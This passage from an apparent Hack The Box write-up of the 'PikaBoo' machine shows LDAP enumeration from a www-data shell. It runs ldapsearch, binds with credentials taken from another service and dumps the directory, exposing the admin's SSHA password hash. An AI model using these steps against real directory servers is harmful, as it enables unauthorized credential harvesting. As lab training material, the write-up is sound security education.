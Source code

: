 Just like I have on many occasions remotely enumerated LDAP, I can try `ldapsearch` from PikaBoo:

```

www-data@pikaboo:/$ ldapsearch -h 127.0.0.1 -x -s base namingcontexts
ldap_bind: Inappropriate authentication (48)
        additional info: anonymous bind disallowed

```

It requires auth. I’ve got the creds from the PokeAPI, and they work:

```

www-data@pikaboo:/var/www$ ldapsearch -h 127.0.0.1 -x -s base namingcontexts -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g'
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: dc=htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```

The DC is HTB. I’ll use that and dump everything under it:

```

www-data@pikaboo:/var/www$ ldapsearch -h 127.0.0.1 -x -b 'dc=htb' -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g'            
# extended LDIF
#
# LDAPv3
# base <dc=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# htb
dn: dc=htb
objectClass: top
objectClass: dcObject
objectClass: organization
o: htb
dc: htb

# admin, htb
dn: cn=admin,dc=htb
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9bWxhdFNUTzJDZjZ6QjdVL2VyOVBUamtBVE5yZnJiVnE=

```